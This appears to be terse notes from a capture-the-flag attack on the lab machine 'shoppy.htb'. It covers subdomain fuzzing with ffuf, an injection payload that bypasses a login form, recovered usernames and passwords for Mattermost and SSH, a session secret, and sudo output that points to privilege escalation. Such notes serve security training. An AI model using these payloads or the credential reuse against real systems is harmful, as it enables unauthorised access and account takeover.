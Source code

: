 # 10.10.11.180

# curl head get X
curl -I --head http://shoppy.htb/login?error=../../1

# faille possible
OSVDB-3092: /login/: This might be interesting...

# dns enum
ffuf -u http://shoppy.htb -w SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host : FUZZ.shoppy.htb" | grep 200

# fs 169 response size
ffuf -u http://shoppy.htb -w SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host : FUZZ.shoppy.htb" -fs 169

# /etc/host
mattermost.shoppy.htb

http://mattermost.shoppy.htb/login

#sql injection
admin'||'1==1

# connection login http://mattermost.shoppy.htb/login
username : josh
pasword : remembermethisway

# connection ssh
username : jaeger
password : Sh0ppyBest@pp!

# app session
secret : DJ7aAdnkCZs9DZWx[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager

